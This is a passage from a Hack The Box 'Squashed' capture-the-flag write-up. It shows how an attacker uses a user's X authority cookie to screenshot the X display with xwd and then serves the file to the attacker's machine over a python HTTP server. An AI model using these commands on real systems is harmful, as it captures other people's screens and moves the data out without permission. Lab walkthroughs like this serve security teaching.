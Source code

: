 ```bash
     0x1800001 "gsd-color": ("gsd-color" "Gsd-color")  10x10+10+10  +10+10                                         
     0x1600001 "gsd-xsettings": ("gsd-xsettings" "Gsd-xsettings")  10x10+10+10  +10+10                             
     0x1a00001 "gsd-wacom": ("gsd-wacom" "Gsd-wacom")  10x10+10+10  +10+10                                         
     0x1400001 "gsd-media-keys": ("gsd-media-keys" "Gsd-media-keys")  10x10+10+10  +10+10                          
     0x1200001 "gsd-power": ("gsd-power" "Gsd-power")  10x10+10+10  +10+10                                         
     0x1000001 "gsd-keyboard": ("gsd-keyboard" "Gsd-keyboard")  10x10+10+10  +10+10                                
     0xc00003 "ibus-xim": ()  1x1+0+0  +0+0           
```
 
Options explained: 

```
- root - select the main root window, not requiring me to select a sub-window with the mouse (which would be impossible with a remote shell)
- screen - makes sure the GetImage request goes to the root window
- silent - silence the typical bells that come with a screenshot
- display :0 - specifies the window to connect to
```

Taking a screenshot of the root window, we might be able to see the contents of the vault if it is in the forefront.

```bash
alex@squashed:/home/alex$ XAUTHORITY=/home/alex/.Xauthority xwd -root -screen -silent -display :0 >/tmp/screenshot.xwd
alex@squashed:/home/alex$ cd /tmp/        
alex@squashed:/tmp$ ls                                                                                             
screenshot.xwd
```

Transfer the screenshot to our VM, 

```bash
alex@squashed:/tmp$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.2 - - [13/Jan/2024 20:31:53] "GET /screenshot.xwd HTTP/1.1" 200 -
```

and convert it to a PNG. 

```bash
$ convert screenshot.xwd screenshot.png
```


[^htb-link]: <https://www.hackthebox.com/machines/squashed>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>